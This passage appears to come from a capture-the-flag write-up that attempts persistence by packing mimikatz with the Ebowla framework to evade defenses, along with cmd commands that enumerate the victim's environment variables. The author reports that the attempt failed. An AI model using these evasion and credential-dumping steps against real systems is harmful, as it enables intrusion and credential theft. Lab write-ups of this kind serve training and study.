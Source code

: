 > **Attacker Machine**:

```bash
# 3th Persistence Method & Firewall Evasion
locate mimikatz.exe
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
git clone https://github.com/Genetic-Malware/Ebowla
mv /home/al3j0/Downloads/Ebowla-master.zip .
7z l Ebowla-master.zip
unzip Ebowla-master.zip -d Ebowla
ncat genetic.config
nvim !$
cat genetic.config | grep -E 'output_type|payload_type'
nvim !$
```

> **Victime Machine**:

```cmd
echo %username%
echo %computername%
echo %homepath%
echo %homedrive%
echo %Number_of_processors%
echo %processor_identifier%
echo %processor_revision%
echo %userdomain%
echo %systemdrive%
echo %userprofile%
echo %path%
echo %temp%
```

<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have the **[Ebowla](https://github.com/Genetic-Malware/Ebowla){:target="_blank"}** configuration file customized, I'm going to look for the `mimikatz.exe` on my machine so I can encode it with the `ebowla.py` script, which I later notice works with `python2`. Once I get the encoded payload I use the script `build_x64_go.sh` to build the new `mimikatz.exe` capable of bypassing the firewall. Now I just have to transfer it to the victim machine and run it, but I do not succeed, maybe I did not set the values of the environment variables correctly, so I remove some that may not be necessary and repeat the whole process again, but again I have the same problem, so I'm going to look for another way to establish persistence.
